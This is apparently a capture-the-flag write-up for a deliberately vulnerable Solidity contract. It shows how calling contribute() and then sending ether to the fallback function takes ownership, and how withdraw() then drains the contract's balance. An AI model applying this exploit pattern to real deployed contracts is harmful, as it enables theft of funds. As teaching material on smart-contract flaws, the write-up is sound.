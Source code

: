 The fallback function is defined as so:
```solidity
  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
This sets the owner to the `msg.sender`. However the function also requires that the contributions of the sender are non-zero, so first we must trigger the `contribute()` function:
```javascript
await contract.contribute.sendTransaction({
    from: player, 
    value: toWei(0.0001)
})
```
Next we trigger the fallback function to set the owner:
```javascript
await sendTransaction({
    from: player,
    to: instance,
    value: toWei(0.0001)
})
```

Now we are the owner we're able to call the transfer method and transfer the entire balance to us:
```javascript
await contract.withdraw()
```
